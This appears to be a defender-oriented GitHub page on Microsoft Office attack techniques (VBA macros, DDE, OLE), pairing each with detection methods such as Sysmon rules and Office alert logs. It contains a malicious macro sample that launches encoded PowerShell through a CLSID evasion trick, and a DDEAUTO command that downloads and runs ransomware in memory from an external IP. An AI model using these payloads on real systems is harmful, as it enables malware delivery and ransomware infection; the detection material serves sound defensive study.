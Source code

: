 ## Microsoft office Attacks

Microsoft office is  a bundle of software that running under windows operating system (ex: Word, Excel,PowerPoint, etc.)

Microsoft integrate many techniques to facilities the job of the user, like VBA macros to automate tasks, Dynamic Data exchange "DDE" to exchange data between Microsoft process, and object linking & Embedding "OLE" which is successor for DDE, this technologies which were meant to be some thing to make the user tasks easier, were misused by hacker, just like any thing.



### VBA Macros

first I need to clarify a thing, there are 4 different languages that some kind related,

- VB6 "Visual Basic"
  - it's compiled language that produce executables 
- VBA "Visual Basic for Application"
  - it's like VB6 but runs under an application "Micorsoft Office, AutoCAD,SolidWorks"
  - it's not compiled
- VBS "Visual Basic Script"
  - used in Web to access do some manipulation on devices
  - need host to run under it which is WSH " windows script host"
  - Not compiled
- JScript
  - Like VBS but with different syntax
  - also run under  WSH

VBA,and VBS syntax are different but not huge difference
but Jscript has major difference in syntax compared to VBS/VBA



Now, lets go back to VBA macros which used in Microsoft office product

the following macro is a sample of malicious macro that used in word documents
it have a form called "skrfeev" that has 3 controls "lables" contains malicious code



**Label1** contains in the ControlTipText property "new:72c24dd5-d70a-438b-8a42-98424b88afb8"

72c24dd5-d70a-438b-8a42-98424b88afb8 is the CLSID for Wscript.shell, could be found in Registry under

Computer\HKEY_CLASSES_ROOT\Wscript.shell\CLSID in a value called "Default"

using CLSID with GetObject is better that ProgID with CreateObject to bypass some Detection techniques 

**Label2** contains in the ControlTipText property  "PoWeRSheLL -ENCOD"

**Label3** contains in the ControlTipText property  "Malicious Powershell code encoded in Base64"

```vb
Function Func1(Array, Array_index)
  Set Element = Array(Array_index)
  Func1 = (Element.ControlTipText) + ""
End Function

Function GetobJect_xx(ObjectID)
 Set GetobJect_xx = GetObject(ObjectID)
End Function

Sub AutoOpen()
Const_Int = Sqr(4) - 1
ObjectID = Func1(skrfeev.Controls, 1)
If Dummy_Var = 2 Then
  MsgBox ObjectID
End If
GetobJect_xx(ObjectID).Run% Func1(skrfeev.Controls, 2) + Func1(skrfeev.Controls, 0), 8552 - 4
End Sub


```



![Mermaid2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/Mermaid2.JPG)



## Detection

We can't detect the running of macros, but we can detect the events that happened when file contains macro or file is trusted by user to run its macro

when user trust document or enable editing for it , there is values added to registry to let windows remember user's choice

Data of this value may vary upon the permission

- suffix FF FF FF 7F means enable macro
- suffix 01 00 00 00 means enable for writing

Macros enabling generate not event in office Alerts [Windows Events] "OAlertx.evtx"

**Detection** 

- sysmon

  - Registry edit for \Security\Trusted

  ```xml
  <Sysmon schemaversion="4.00">
  <HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
    <EventFiltering>
  		
  		<RegistryEvent default="include"> 
  			<TargetObject condition="contains">\Security\Trusted</TargetObject>
  		</RegistryEvent>
  		
  	
  	</EventFiltering>
  </Sysmon>
  ```
  
  

RegRipper which is very good tool for registry analysis has a plugin called trusterecords which display files trusted in Microsoft office

------

### Dynamic Data Exchange "DDE"

Dynamic Data exchange is a method that enable office application from getting data from another office application, it can run at startup which means that when word office opens it will run, it help users import data from file to file and do their tasks easily

#### Attack 

*it's not working on Win 10 1809 and above*

Open Word file and create formula



![DDE1](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDE1.png)



![DDE2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDE2.png)



![DDE3](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDE3.png)

when you Toggle Field Codes remove = \\* MERGEFORMAT and place the following

```powershell
{DDEAUTO c:\\windows\\system32\\cmd.exe "/c powershell.exe -nop -ep bypass-C ( [System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://[IP]/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))"}
```

this will download ransomware from external IP and load it directly in the memory *"the executable must be .net to be able to use this command line and must have no argument in the main function, if it has you have to edit the code in the command line with types of arguments"* 



### Detection

- Windows events
  - Micorsoft Office Alerts [OAlerts] "C:\Windows\System32\winevt\Logs\OAlerts.evtx"
    
    - EventID 300: it will show (c PowerShell) which is /c powershell.exe but it will not show any other details like command line of the PowerShell "we can get PowerShell command from PowerShell logging" but if cmd will run regsrv32 as example, we have no log
      also we don't have the name of the office file to examine it, but we can  look at recent folder for windows or recent folder for Microsoft word to obtain recently opened files
    
    

![DDEOAlert](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/DDEOAlert.jpg)

---



### Object linking & embedding "OLE"

Object linking and embedding is very awesome feature in office that makes you create objects in an application and copy it to another application(ex: objects like graphs, tables), it is the successor of DDE

to Create it 
Insert --> Object --> Package , Display ICON "choose ICON from WINWORD.exe" --> name the lable --> choose the file 



![OLE](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/OLE.JPG)



![OLE2](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/OLE2.JPG)

OLE suffered from buffer overflow vulnerabilities that let attacker use it to deliver malwares, the good thing for attackers in this case that when OLE runs their malicious command buried inside the document, there is no "Enable content" button that use have to click on neither popup like in DDE "**CVE-2017-11882**" not working in Win 10 1809 and above





### Detection

for OLE there is no Events and there is no registry key to search so I will talk about general detection



![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Microsoft%20office%20Attacks/Misc/Mermaid.JPG)



- **sysmon**
  - Process Create
    - Parent process in the office path "Microsoft Office\Office", it contains WINWORD.exe,EXCEL.exe .etc
```xml
<Sysmon schemaversion="4.00">
<HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
  <EventFiltering>
		
		<ProcessCreate default="include"> 
			<ParentImage condition="contains">Microsoft Office\Office</ParentImage>
		</ProcessCreate>
      
	</EventFiltering>
</Sysmon>
```



### Reference

- 1- [VBS tutorial](https://ss64.com/vb/)
- 2- [DDE Security from Micrsoft](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
- 3- [office exploits](https://github.com/SecWiki/office-exploits)

  